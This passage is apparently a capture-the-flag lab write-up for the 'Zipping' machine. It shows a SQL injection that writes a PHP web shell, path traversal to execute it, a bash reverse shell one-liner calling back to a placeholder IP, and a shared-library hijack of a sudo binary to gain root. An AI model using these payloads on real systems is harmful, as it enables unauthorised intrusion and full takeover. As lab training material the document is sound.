 ### Exploiting SQL Injection and Path Traversal to Gain Shell Access
The next SQLi will write a webshell at `/var/lib/mysql/shell.php`, this web shell works with GET request and the parameter `0=[command]`.

```sql

1'; SELECT "<?php system($_GET[0]); ?>" INTO OUTFILE '/var/lib/mysql/shell.php'; -- -1
```

Now access the URL `http://zipping.htb/shop/index.php?page=/var/lib/mysql/shell.php?0=[REVERSE_SHELL_PAYLOAD]`

You can obtain a reverse shell at https://www.revshells.com/. An example of reverse shell would be:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/[YOUR-IP]/7000 0>&1'
```

<i>Note: I always use `/bin/bash -c` as a prefix beucase it has a better percentage of success.</i>

## Privilege Escalation

After obtaining a shell as "rektsu". the next step involves privilege escalation. Initially, we'll enumerate the machine using the `sudo -l` command, discovering that we can execute the `/usr/bin/stock` binary as sudo without being prompted for a password. Upon this realization, we execute it to observe its behavior and notice the absence of a password prompt.

### Reverse Engineering
Consequently, we analyze the binary using the `strings /usr/bin/stock` command, extracting various strings from the executable. Notably, before prompting for a password, there exists the string "St0ckM4nager". Further analysis of the strings reveals a CSV file loaded at `/root/stock.csv`. Executing the binary with the password exposes a small program offering stock display and edit options. However, attempting to inject any commands proves unsuccessful.

If we utilize the `strace` command to run the `/usr/bin/stock` binary and input the password, we'll notice it attempts to load a file from `/home/rektsu/.config/libcounter.so`, indicating that it hasn't been found. When checking for this file, it indeed doesn't exist, but we have the capability to create it.

### Creating libcounter.so
we'll create the `libcounter.so` file, allowing us solely to view the root flag, although it's also possible to obtain a shell.


```c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((constructor)) load_shellcode() {
    system("cat /root/root.txt");
}
```
Compiled the shared object file:

```bash
gcc -fPIC -shared -o libcounter.so libcounter.c
```

### Final Execution
Finnally, just execute the binary as sudo an obtain the flag.
```
sudo /usr/bin/stock
```
